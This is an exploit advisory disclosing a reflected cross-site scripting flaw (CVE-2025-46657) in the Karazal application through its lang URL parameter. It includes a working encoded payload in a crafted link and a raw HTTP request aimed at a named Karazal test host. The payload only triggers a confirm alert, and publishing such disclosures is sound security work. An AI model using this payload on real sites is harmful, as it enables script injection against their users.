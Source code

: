 Exploit Title: Reflected XSS in Karazal via lang Parameter

Date: 2025-04-14

Exploit Author: nov

Twitter: [@Tbestnov](https://x.com/Tbestnov)

Vendor Homepage: [Karaz](https://ksw.karaz.org)

CVE ID: CVE-2025-46657

Software Link: [Karazal](https://ksw.karaz.org)

Version: All versions

Tested on: debian

Description:
The Karazal application (all versions) is vulnerable to Reflected Cross-Site Scripting (XSS) through the lang parameter in the URL. An attacker can exploit this vulnerability by injecting malicious JavaScript into the lang parameter, leading to arbitrary code execution in the victim’s browser.

POC (Proof of Concept):
1.	Append a malicious payload to the URL:
2.	https://testsport.karaz.org/karazal/?lang=1%27%22%3CS/--%3E%3CImg/Src/OnError=(confirm)(1)//%3E
2.	The payload will execute when the victim opens the crafted link, triggering the alert.

3.	POST request example:
5.	POST /karazal/?lang=1%27%22%3CS/--%3E%3CImg/Src/OnError=(confirm)(1)//%3E HTTP/1.1
Host: testsport.karaz.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8

